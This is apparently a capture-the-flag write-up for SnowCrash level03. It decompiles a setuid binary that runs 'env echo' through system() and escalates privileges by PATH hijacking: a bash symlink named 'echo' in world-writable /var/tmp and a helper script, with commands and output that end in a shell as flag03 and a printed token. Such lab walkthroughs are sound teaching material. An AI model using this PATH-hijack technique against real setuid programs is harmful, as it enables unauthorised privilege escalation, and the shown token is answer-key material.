





# Flag03

In our home we find an executable file:
```
level03@SnowCrash:~$ ls
level03
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
So I transfer it to my session and analyze it:
```
$ scp -P 4242 level03@10.13.250.56:/home/user/level03/level03 ~/
$ file level03
level03: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f58ee3b85530179386e826e809e4b547b4b18ac, with debug_info, not stripped

$ ghidra
```
Click on "New Project" and then on "Non-Shared Project":




And have the program "Analyze" it (click on the "Select All" button):


The decompiled main functions resembles to this:
```
/* WARNING: Unknown calling convention */

int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}

```
According to an answer on [Stack Overflow](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code), the `PATH` variable can be overridden to make it point to a directory with a custom version of `echo`, and since `echo` is executed using `env`, it isn't treated as a built-in.

> Note that the setting of real user ID, effective user ID and saved set-user-ID by a call to `setresuid()` before the call to `system()` in the vulnerable code posted in the question allows one to exploit the vulnerability even when only effective user ID is set to a privileged user ID and real user ID remains unprivileged (as is for example the case when relying on set-user-ID bit on a file as above). Without the call to `setresuid()` the shell run by `system()` would reset the effective user ID back to the real user ID making the exploit ineffective. However, in the case when the vulnerable code is run with real user ID of a privileged user, `system()` call alone is enough.

Ideally I can create a [symbolic link](https://www.freecodecamp.org/news/linux-ln-how-to-create-a-symbolic-link-in-linux-example-bash-command) in one of the folders of the path that are searched before the `/bin` folder in order to execute `bash` before `echo`, since I don't have write permissions in my home folder. However, I have permissions to execute `/bin/bash`.

To find directories where I (as "others") have at least write and exec [permissions](https://www.redhat.com/sysadmin/audit-permissions-find), I type:
```
find / -perm -003 -type d 2>/dev/null # 4 for r, 2 for w, 1 for x
```
As in:
```
level03@SnowCrash:/var/crash$ find / -perm -003 -type d 2>/dev/null
/run/shm
/run/lock
/tmp
/var/crash
/var/lib/php5
/var/tmp
/rofs
/rofs/tmp
/rofs/var/crash
/rofs/var/lib/php5
/rofs/var/tmp
level03@SnowCrash:/var/crash$
```
I need to create a symbolic link as follows:
```
ln -s /bin/bash echo
```
I found out I have writing permissions in `/var/tmp`, so I created the symbolic link to `/bin/bash` that I called `echo` and exported the directory as part of the $PATH variable:
```
level03@SnowCrash:~$ cd /var/tmp/
level03@SnowCrash:/var/tmp$ ln -s /bin/bash echo
level03@SnowCrash:/var/tmp$ export PATH=$PWD:$PATH
level03@SnowCrash:/var/tmp$ ~/level03
echo: Exploit: No such file or directory
```
Since `bash` wanted to execute `Exploit`, I created a script with the same name calling `bash`. And I was `flag03`:
```
level03@SnowCrash:/var/tmp$ cat Exploit
#!/bin/bash

bash
level03@SnowCrash:/var/tmp$ ~/level03
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:/var/tmp$ whoami
flag03
flag03@SnowCrash:/var/tmp$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
flag03@SnowCrash:/var/tmp$ su level04
Password:
level04@SnowCrash:~$